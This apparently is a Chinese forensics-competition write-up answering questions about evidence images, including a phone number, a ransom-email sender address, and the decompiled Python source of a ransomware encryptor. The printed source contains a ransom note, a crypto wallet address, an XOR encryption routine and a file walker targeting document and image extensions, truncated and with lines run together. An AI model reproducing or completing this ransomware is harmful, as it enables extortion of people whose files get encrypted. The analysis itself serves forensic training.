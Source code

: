 ![image-20230107145324595](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20230107145324595.png)



0c2f5dd4a9bc6f34873fb3c0ee9b762b98e8c46626410be7191b11710117a12d39 

### 39上述录屏软件登录的手机号是 

![image-20230107150017561](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20230107150017561.png)

18645091802

### 40 检材4中，发送勒索邮件的邮箱地址为 

![image-20230107150108778](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20230107150108778.png)

skterran@163.com

分析所有掌握的检材，找到勒索邮件中被加密的文档和对应的加/解密程序，并回答下列问题

### 41 分析加密程序，编译该加密程序使用的语言是 

在检材2中的D盘中，就能发现加密程序和解密文件，图标一看就是python的

![image-20230106151409271](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20230106151409271.png)

python

### 42 分析加密程序，它会加密哪些扩展名的文件？ 

```python
import timefrom Crypto.PublicKey import RSAfrom Crypto.Cipher import PKCS1_v1_5 as Cipher_pkcs1_v1_5import os
pubkey = '-----BEGIN PUBLIC KEY-----\nMIIBIzANBgkqhkiG9w0BAQEFAAOCARAAMIIBCwKCAQEAx5JF4elVDBaakgGeDSxI\nCO1LyyZ6B2TgR4DNYiQoB1zAyWPDwektaCfnvNeHURBrw++HvbuNMoQNdOJNZZVo\nbHVZh+rCI4MwAh+EBFUeT8Dzja4ZlU9E7jufm69TQS0PSseIiU/4Byd2i9BvIbRn\nHLFZvi/VXphGeW0qVeHkQ3Ll6hJ2fUGhTsuGLc1XXHfiZ4RbJY/AMnjYPy9CaYzi\nSOT4PCf/O12Kuu9ZklsIAihRPl10SmM4IRnVhZYYpXedAyTcYCuUiI4c37F5GAhz\nRDFn9IQ6YQRjlLjuOX8WB6H4NbnKX/kd0GsQP3Zbogazj/z7OM0Y3rv3T8mtF6/I\nkwIEHoau+w==\n-----END PUBLIC KEY-----\n'msg = "SOMETHING WENT WRONG,PLEASE CONTACT YOUR SYSTEM ADMINISTRATOR!\nHe can help you to understand whats happened.\nIf he can't help you,contact us via email:\naa1028@forensix.cn\nale@forensix.cn\nHURRY UP!WE HAVE ANTIDOTE FOR YOUR FILES!DISCOUNT 20%FOR CLIENTS,WHO CONTACT US IN THE SAME DAY!\nYou can attach 2 files (text or picture)to check our honest intentions,we will heal them and send\nback.\nPlease pay 0.618 ETH\nThe wallet address：0xef9edf6cdacb7d925aee0f9bd607b544c5758850\n************************************\n"class XORCBC:

    def __init__(self, key: bytes):
        self.key = bytearray(key)
        self.cur = 0

    def encrypt(self, data: bytes) -> bytes:
        data = bytearray(data)
        for i in range(len(data)):
            tmp = data[i]
            data[i] ^= self.key[self.cur]
            self.key[self.cur] = tmp
            self.cur = (self.cur + 1) % len(self.key)

        return bytes(data)print('加密程序V1.0')print('文件正在加密中~~~~~~~~~~~~~~~~~~\n')def run_finall():
    for filepath, dirnames, filenames in os.walk(os.getcwd()):
        for filename in filenames:
            if filename != 'encrypt_file.py' and filename != 'decrypt_file.py' and '_encrypted' not in filename:
                ExtensionPath = os.path.splitext(filename)[(-1)]
                if '.txt' == ExtensionPath or '.jpg' == ExtensionPath or '.xls' == ExtensionPath or '.docx' == ExtensionPath:
                    time.sleep(3)
```